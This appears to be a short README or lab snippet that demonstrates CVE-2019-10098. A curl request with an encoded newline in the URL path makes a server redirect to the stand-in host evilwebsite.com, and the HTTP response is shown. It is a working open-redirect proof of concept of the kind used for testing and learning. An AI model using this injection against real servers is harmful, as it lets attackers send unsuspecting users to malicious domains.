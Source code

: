 Normal URLs like http://redirect.local/test will be forwared to https://redirect.local/test. But by using newlines (CVE 2019-10098), we can redirect somewhere else (i.e. to `https://redirect.local.evilwebsite.com`):

```
curl -Ik 'https://redirect.local/%0a.evilwebsite.com' --path-as-is
HTTP/2 302
date: Mon, 28 Oct 2019 03:36:58 GMT
content-type: text/html; charset=iso-8859-1
location: https://redirect.local.evilwebsite.com
```